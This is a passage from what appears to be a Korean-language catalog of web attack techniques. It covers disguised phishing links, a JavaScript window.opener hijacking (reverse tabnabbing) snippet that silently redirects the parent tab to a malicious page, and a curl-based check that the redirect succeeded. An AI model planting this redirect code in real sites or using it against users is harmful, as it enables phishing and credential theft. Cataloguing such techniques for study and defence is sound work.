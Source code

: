       <td>정상적인 콘텐츠(이벤트, 할인 정보 등)로 위장한 하이퍼링크나 URL 단축 서비스를 사용하여, 사용자의 경계심을 낮추고 악성 링크를 클릭하도록 심리적으로 유도한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Manipulation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>window.opener Hijacking</td>
      <td>
        <pre><code>if (window.opener) {
  window.opener.location = "http://127.0.0.1:8080/Desktop/malicious_redir.html";
}</code></pre>
      </td>
      <td>새로 열린 자식 창에서 window.opener 객체를 사용하여, 사용자가 인지하지 못하는 사이 원본 부모 창의 주소(location)를 공격자가 제어하는 피싱 페이지로 몰래 변경한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Validation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Attack Success Validation</td>
      <td>
        <pre><code># 공격자 서버에서 수신 로그 확인 또는
# 자동화된 브라우저로 리디렉션 여부 확인
curl -I http://original-site.com/</code></pre>
      </td>
      <td>공격자의 피싱 서버 로그를 확인하거나 headless 브라우저를 이용한 자동화 테스트를 통해, 부모 창의 리디렉션이 성공적으로 이루어졌는지 기술적으로 확인하여 공격의 작동 여부를 검증한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>
